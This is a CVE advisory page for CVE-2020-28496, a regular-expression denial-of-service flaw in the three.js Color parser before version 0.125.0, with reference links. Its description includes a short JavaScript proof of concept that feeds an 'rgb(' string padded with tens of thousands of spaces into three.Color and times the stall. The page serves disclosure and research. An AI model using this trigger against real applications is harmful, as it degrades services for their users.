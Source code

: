 ### [CVE-2020-28496](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28496)
![](https://img.shields.io/static/v1?label=Product&message=three&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C%200.125.0%20&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=Regular%20Expression%20Denial%20of%20Service%20(ReDoS)&color=brighgreen)

### Description

This affects the package three before 0.125.0. This can happen when handling rgb or hsl colors. PoC: var three = require('three') function build_blank (n) { var ret = "rgb(" for (var i = 0; i < n; i++) { ret += " " } return ret + ""; } var Color = three.Color var time = Date.now(); new Color(build_blank(50000)) var time_cost = Date.now() - time; console.log(time_cost+" ms")

### POC

#### Reference
- https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1065972
- https://snyk.io/vuln/SNYK-JAVA-ORGWEBJARSNPM-1065972
- https://snyk.io/vuln/SNYK-JS-THREE-1064931
- https://snyk.io/vuln/SNYK-JS-THREE-1064931

#### Github
- https://github.com/Leeft/three-sprite-texture-atlas-manager
- https://github.com/engn33r/awesome-redos-security
- https://github.com/yetingli/PoCs

